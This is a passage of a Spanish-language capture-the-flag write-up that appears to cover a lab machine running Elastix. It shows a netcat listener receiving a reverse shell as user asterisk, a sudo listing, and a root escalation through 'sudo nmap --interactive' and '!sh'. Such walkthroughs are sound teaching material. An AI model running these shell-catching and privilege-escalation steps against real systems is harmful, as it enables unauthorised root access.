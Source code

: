 ```shell
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.7] 33688
id
uid=100(asterisk) gid=101(asterisk)
```

# Privilege Escalation

Lista la configuración de sudo:

```
bash-3.2$ sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
    LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
```

GTFOBins tiene una cheatsheet para abusar el binario de nmap:
![GTFOBins nmpa sudo](https://gtfobins.github.io/gtfobins/nmap/#sudo)

Puedes escalar a root:

```shell
bash-3.2$ sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
whoami
root
```
